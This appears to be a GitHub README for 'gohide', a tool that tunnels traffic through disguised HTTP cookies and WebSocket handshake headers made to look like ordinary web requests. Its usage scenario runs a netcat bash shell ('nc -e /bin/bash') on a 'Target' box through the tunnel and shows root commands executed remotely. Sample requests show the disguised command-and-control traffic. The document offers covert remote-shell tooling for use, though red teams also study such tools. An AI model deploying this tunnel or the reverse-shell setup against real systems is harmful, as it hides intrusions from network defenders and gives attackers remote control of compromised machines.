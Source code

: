 # gohide 

Tunnel port to port traffic via an obfuscated channel with AES-GCM encryption. 

**Obfuscation Modes**
- Session Cookie HTTP GET (http-client)
- Set-Cookie Session Cookie HTTP/2 200 OK (http-server) 
- WebSocket Handshake "Sec-WebSocket-Key" (websocket-client)
- WebSocket Handshake "Sec-WebSocket-Accept" (websocket-server)
- No obfuscation, just use AES-GCM encrypted messages (none)

AES-GCM is enabled by default for each of the options above.

**Usage**
```
root@WOPR-KALI:/opt/gohide-dev# ./gohide -h
Usage of ./gohide:
  -f string
    	listen fake server -r x.x.x.x:xxxx (ip/domain:port) (default "0.0.0.0:8081")
  -key openssl passwd -1 -salt ok | md5sum
    	aes encryption secret: use '-k openssl passwd -1 -salt ok | md5sum' to derive key from password (default "5fe10ae58c5ad02a6113305f4e702d07")
  -l string
    	listen port forward -l x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:8080")
  -m string
    	obfuscation mode (AES encrypted by default): websocket-client, websocket-server, http-client, http-server, none (default "none")
  -pem string
    	path to .pem for TLS encryption mode: default = use hardcoded key pair 'CN:target.com', none = plaintext mode (default "default")
  -r string
    	forward to remote fake server -r x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:9999")

```

**Scenario** 

Box A - Reverse Handler. 

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:8081 -l 127.0.0.1:8080 -r target.com:9091 -m websocket-client
Local Port Forward Listening: 127.0.0.1:8080
FakeSrv Listening: 0.0.0.0:8081
```
Box B - Target.
```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:9091 -l 127.0.0.1:9090 -r target.com:8081 -m websocket-server
Local Port Forward Listening: 127.0.0.1:9090
FakeSrv Listening: 0.0.0.0:9091

```
Note:
/etc/hosts "127.0.0.1 target.com"

Box B - Netcat /bin/bash

```
root@WOPR-KALI:/var/tmp# nc -e /bin/bash 127.0.0.1 9090

```
Box A - Netcat client
```
root@WOPR-KALI:/opt/gohide# nc -v 127.0.0.1 8080
localhost [127.0.0.1] 8080 (http-alt) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
netstat -pantwu 
Active Internet connections (servers and established)
tcp        0      0 127.0.0.1:39684         127.0.0.1:8081          ESTABLISHED 14334/./gohide      

```
**Obfuscation Samples**

websocket-client (Box A to Box B)
- Sec-WebSocket-Key contains AES-GCM encrypted content e.g. "uname -a".
```
GET /news/api/latest HTTP/1.1
Host: cdn-tb0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: 6jZS+0Wg1IP3n33RievbomIuvh5ZdNMPjVowXm62
Sec-WebSocket-Version: 13
```

websocket-server (Box B to Box A)
- Sec-WebSocket-Accept contains AES-GCM encrypted output.
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: URrP5l0Z3NIHXi+isjuIyTSKfoP60Vw5d2gqcmI=
```
http-client
- Session cookie header contains AES-GCM encrypted content
```
GET /news/api/latest HTTP/1.1
Host: cdn-tbn0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://www.bbc.co.uk/
Connection: keep-alive
Cookie: Session=R7IJ8y/EBgCanTo6fc0fxhNVDA27PFXYberJNW29; Secure; HttpOnly
```
http-server
- Set-Cookie header contains AES-GCM encrypted content.
```
HTTP/2.0 200 OK
content-encoding: gzip
content-type: text/html; charset=utf-8
pragma: no-cache
server: nginx
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
cache-control: no-cache, no-store, must-revalidate
expires: Thu, 21 Nov 2019 01:07:15 GMT
date: Thu, 21 Nov 2019 01:07:15 GMT
content-length: 30330
vary: Accept-Encoding
X-Firefox-Spdy: h2
Set-Cookie: Session=gWMnQhh+1vkllaOxueOXx9/rLkpf3cmh5uUCmHhy; Secure; Path=/; HttpOnly

```

none
```
8JWxXufVora2FNa/8m2Vnub6oiA2raV4Q5tUELJA
```

![Screenshot from 2019-11-21 02-26-30](https://user-images.githubusercontent.com/56988989/69298676-804ba680-0c06-11ea-84f6-2a32c48a3ba0.png)

![Screenshot from 2019-11-21 16-40-07](https://user-images.githubusercontent.com/56988989/69357798-a3656d00-0c7d-11ea-9db9-d3fe5d2e9ccf.png)


Future
- Fix up error handling.



Enjoy~
